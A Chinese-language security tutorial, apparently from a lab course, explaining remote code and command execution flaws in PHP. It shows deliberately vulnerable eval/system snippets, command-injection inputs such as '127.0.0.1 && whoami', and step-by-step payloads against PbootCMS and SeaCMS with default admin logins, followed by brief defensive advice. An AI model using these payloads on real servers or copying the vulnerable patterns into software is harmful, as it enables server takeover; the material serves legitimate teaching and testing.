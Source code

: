 ==1.RCE 简介与危害==
所谓 RCE 漏洞，即 Remote Code/Command Execution，远程代码执行和远程命令执行漏洞。在很
多 Web 应用中，开发人员会使用一些函数，这些函数以一些字符串作为输入，功能是将输入的字
符串当作代码或者命令来进行执行。当用户可以控制这些函数的输入时，就产生了 RCE 漏洞。RCE
漏洞是非常严重的安全漏洞，一旦出现，就意味着攻击者可以获取服务器的命令执行权限，从而
对服务器安全造成极大的影响。
案例：远程代码执行
http://localhost/rce/rce01.php?x=phpinfo();
http://localhost/rce/rce01.php?x=echo%20abc;
```
<?php

$code=$_GET['x'];

eval($code);

?>
```


案例：远程命令执行
http://localhost/rce/rce02.php?x=whoami
http://localhost/rce/rce02.php?x=ipconfig
```
<?php

$code=$_GET['x'];

echo system($code);

?>
```


2、公开漏洞利用
靶场重现
案例 1：
命令注入执行分析
https://www.mozhe.cn/bug/detail/12
越过前端验证
127.0.0.1 | ls
127.0.0.1 && whoami


```
#包围的内容会当 在 php 中称之为执行运算符，PHP 将尝试将反引号中的内容作为shell 命令来执行，并将其输出信息返回
echo `$_REQUEST[a]`;; ?>
```



CMS 案例
案例 1：PbootCMS
http://localhost/PbootCMS/admin.php
账号：admin 密码：123456
步骤 1：在线留言
`AboutController：{pboot:if(eval($_POST[1]))}!!!{/pboot:if}`
步骤 2：首页注入：
http://localhost/PbootCMS/index.php/about/10.html
#post data：1=phpinfo();

==审计视角==
审计工具查询危险函数
Seay源代码审计系统



案例 2：SeaCms
http://localhost/SeaCMS/3nt7dh/login.php
admin/admin
系统设置-后台IP设置：
```
127.0.0.1";phpinfo();//
<a href='https://www.seacms.net'>链接</a>;phpinfo();//
qqq;phpinfo();//
```




==3.RCE 漏洞防御==
1.在进入执行命令函数前进行严格的检测和过滤;
2.尽量不要使用命令执行函数，不能完全控制的危险函数最好不使用，如果非要用的话可以加验证防止被其他人利用。
3.对于 eval 函数，一定要保证用户不能轻易接触 eval 的参数，如果需要运用到则必须严格判断输入的数据是否含有危险变量;